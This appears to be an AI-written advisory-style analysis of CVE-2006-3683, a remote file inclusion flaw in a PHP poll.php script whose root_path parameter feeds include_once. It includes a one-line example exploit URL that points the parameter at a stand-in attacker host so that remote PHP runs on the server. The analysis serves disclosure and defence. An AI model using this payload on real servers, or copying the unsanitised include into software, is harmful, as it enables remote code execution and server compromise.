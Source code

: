 Based on the provided content, here's an analysis of the vulnerability:

**CVE ID:** CVE-2006-3683

**Vulnerability Details:**

*   **Root Cause:** The vulnerability is a remote file inclusion (RFI) vulnerability due to the insecure use of the `include_once` function in the `poll.php` script. The script takes a user-supplied parameter named `root_path` without proper sanitization and uses it to include an external file.

*   **Weaknesses/Vulnerabilities Present:**
    *   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include a remote file into the application. This occurs because the script directly uses the `root_path` parameter provided by the user within an `include_once` function.
    *  **Lack of Input Validation:** The application does not validate or sanitize the user-supplied `root_path` parameter. This allows an attacker to inject malicious URLs or paths.

*   **Impact of Exploitation:**
    *   **Arbitrary Code Execution:** By including a malicious file from a remote server, an attacker can execute arbitrary code on the server hosting the vulnerable application.
    *   **Complete System Compromise:** Successful exploitation could lead to a complete compromise of the server, allowing an attacker to read sensitive files, modify data, or perform other malicious actions.

*  **Attack Vectors:**
   *   **HTTP GET Request:** The attack vector is through a simple HTTP GET request to the vulnerable `poll.php` script, by appending the malicious `root_path` parameter.
   *  **Manipulated URL Parameter:** The attacker manipulates the `root_path` URL parameter in the HTTP request to point to a malicious file located on a server controlled by the attacker.

*   **Required Attacker Capabilities/Position:**
    *   **Network Access:** The attacker needs network access to the server hosting the vulnerable application.
    *   **Knowledge of Vulnerable Script:** The attacker needs to know the location of the vulnerable script (`poll.php`) and the parameter name (`root_path`).
    *   **Control over a Web Server:** The attacker must have access to a web server where they can host a malicious file to be included by the vulnerable application.

**Technical Details:**
The vulnerable code snippet is:
```php
include_once($root_path . 'config.php');
```
This line of code directly uses the value of the `root_path` GET parameter without any validation. An attacker can set this parameter to a URL pointing to a malicious PHP file on their server. The `include_once` function will then fetch and execute this malicious file, leading to arbitrary code execution.

**Example Exploit:**

`http://www.target.com/path/poll.php?root_path=http://attacker.com/malicious.txt?`

In this example, `attacker.com/malicious.txt` contains malicious PHP code. When the target server processes this request, it will include and execute the code from `malicious.txt`.

**Additional Notes:**

* The provided content from `secunia.com` is a general description of their security research and products and does not provide specific details about this CVE.
* The content from `www.vupen.com` is a site under construction and does not provide any relevant information.

This analysis provides more detail than the typical CVE description, specifically in detailing the vulnerable code, exploit vector, and impact of exploitation.